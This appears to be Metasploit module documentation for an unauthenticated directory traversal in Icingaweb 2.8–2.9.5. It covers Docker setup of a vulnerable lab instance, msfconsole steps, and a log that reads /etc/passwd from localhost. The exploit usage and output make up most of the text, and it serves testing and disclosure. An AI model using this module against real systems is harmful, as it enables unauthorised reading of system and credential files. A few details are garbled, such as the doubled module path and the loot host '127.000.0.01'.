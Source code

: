 
## Vulnerable Application

Icingaweb versions between 2.9.0-2.9.5, 2.8.0-2.8.5 (inclusive) suffer from an
unauthenticated directory traversal vulnerability. The vulnerability is triggered
through the icinga-php-thirdparty library, and the file to read is an absolute path.

This module was tested against Icingaweb 2.9.5 running on Docker.

## Install Icingaweb on Ubuntu 22.04

```
sudo apt-get install docker.io -y
sudo docker network create joomla-network
sudo docker run -p 8080:8080 icinga/icingaweb2:2.9.5
```

Browse to port 8080 to confirm  the site loads. No need to configure.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/scanner/http/icinga_static_library_file_directory_traversal`
4. Do: `set rhosts [ip]`
5. Do: `set file [file]`
6. Do: `run`
7. You should be able to retrieve a file

## Scenarios

### Version 2.9.5 from Docker

```
[*] Processing icinga.rb for ERB directives.
resource (icinga.rb)> use scanner/http/icinga_static_library_file_directory_traversal
resource (icinga.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (icinga.rb)> set file /etc/passwd
file => /etc/passwd
resource (icinga.rb)> check
[*] 127.0.0.1:8080 - The service is running, but could not be validated. 127.0.0.1:8080     - Icinga Web 2 found, unable to determine version.
resource (icinga.rb)> run
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

[+] /etc/passwd saved to /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (icinga.rb)> loot

Loot
====

host          service  type         name         content     info  path
----          -------  ----         ----         -------     ----  ----
127.000.0.01           icinga file  /etc/passwd  text/plain        /root/.msf4/loot/20230421161654_default_127.0.0.1_icingafile_070863.txt
```
